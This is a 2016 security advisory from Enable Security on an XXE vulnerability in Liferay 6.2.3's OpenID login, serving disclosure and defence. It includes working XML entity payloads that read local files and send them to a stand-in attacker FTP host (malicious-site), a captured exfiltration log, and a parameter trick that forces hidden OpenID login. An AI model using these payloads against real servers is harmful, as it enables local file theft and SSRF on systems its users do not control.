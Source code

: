 # XML External Entity XXE vulnerability in OpenID component of Liferay

- Author: Sandro Gauci <sandro@enablesecurity.com>
- Vulnerable version: Liferay 6.2.3 CE GA4 and earlier
- Liferay reference: LPS-58014
- Advisory URL: <https://github.com/EnableSecurity/advisories/tree/master/ES2016-01-liferay-xxe>
- Timeline:
	- Report date: March 16 2015
	- Liferay patch: August 26 2015
	- Liferay advisory: January 18 2016
	- Enable Security advisory: June 1 2016

## Description

Liferay supports OpenID login which was found to make use of a version
of `openid4java` that is vulnerable to XML External Entity (XXE)
attacks.

## Impact

Abuse of the XXE vulnerability can (at least) lead to local file
disclosure, server-side request forgery (SSRF) and denial of service.
This vulnerability was abused to read local files on the web server
that the web application had access to.

## How to reproduce the issue

This issue was previously discovered to affect  [one of Google's web
server](https://code.google.com/p/chromium/issues/detail?id=240139)
which was using the same OpenID library.

To abuse this vulnerability, an attacker needs to:

1. Force Liferay to make use of OpenID for authentication
2. Provide an attacker-controlled URL (web location) as the OpenID URL. This URL should contain malicious XML (see below)
3. Upon reading the XML, the OpenID library will attempt to load the external entity on the attacker's web server
4. This external entity instructs the library to read a file from local disk and make use of it's contents to load another file from an attacker controlled (custom) FTP server

Thus the contents of the file to be read are sent to the custom FTP
server. During exploitation, we had to make use of a fake FTP server
(from <https://github.com/ONsec-Lab/scripts>) to receive the
information. However, it might be possible to use HTTP and other
protocols too depending on the version of Java used and other
variables.

For step 1, the attacker needs to locate the authentication form in
Liferay and then click on the OpenID link. The attacker then specifies <http://malicious-site> as an OpenID URL. This website would contain the following:

```html
<meta http-equiv="X-XRDS-Location" 
	content="http://malicious-site/yadis.xml"> 
```

As the OpenID library reads that, it loads `yadis.xml` which would contain the
following:

```xml
<?xml version="1.0"?>
	<!DOCTYPE a [
	   <!ENTITY % asd SYSTEM "http://malicious-site/xxe.xml"> 
	   %asd; 
	   %rrr; 
	]>
<a></a>
```

This loads `xxe.xml` which in turn would contain the following:

	<!ENTITY % b SYSTEM "file:///">
	<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM 'ftp://malicious-site:443/%b;'>">
	%c;

Once the XML interpreter parses these contents, it connects to the FTP
site, sending the contents of the root directory on the server as can
be seen in the following log:

	> sudo ruby xxe-ftp-server.rb
	FTP. New client connected
	< USER anonymous
	< PASS Java1.6.0_21@
	> 230 more data please!
	< TYPE I
	> 230 more data please!
	< EPSV ALL
	> 230 more data please!
	< EPSV
	> 230 more data please!
	< EPRT |1|172.x.x.x|39051|
	> 230 more data please!
	< bin
	> 230 more data please!
	< boot
	> 230 more data please!
	< dev
	> 230 more data please!
	< etc
	> 230 more data please!
	< home
	> 230 more data please!
	... etc

Directories and also local files could be read using this method.

Note that sometimes the OpenID login method is hidden but the functionality is not disabled from within Liferay itself. In such cases, it is possible to force Liferay to make use of OpenID anyway by setting the `_58_struts_action` parameter from `/login/login` to `/login/open_id`. 

## Solutions and recommendations

Upgrading to the latest version of Liferay should address this
security vulnerability. The patch was published at the following location: <https://sourceforge.net/projects/liferay-patches/files/6.2.3%20GA4/>

Additionally, to address this issue it is recommended to disable
OpenID support.

## Further reading

- <http://openid.net/2011/05/05/attribute-exchange-security-alert/>
- <https://code.google.com/p/chromium/issues/detail?id=240139>

## About Enable Security

[Enable Security](https://www.enablesecurity.com) provides Information Security services, including Penetration Testing, Research and Development, to help protect client networks and applications against online attackers.

## Disclaimer

Disclaimer: The information in the advisory is believed to be accurate at the
time of publishing based on currently available information. Use of the
information constitutes acceptance for use in an AS IS condition. There are no
warranties with regard to this information. Neither the author nor the publisher
accepts any liability for any direct, indirect, or consequential loss or damage
arising from use of, or reliance on, this information.
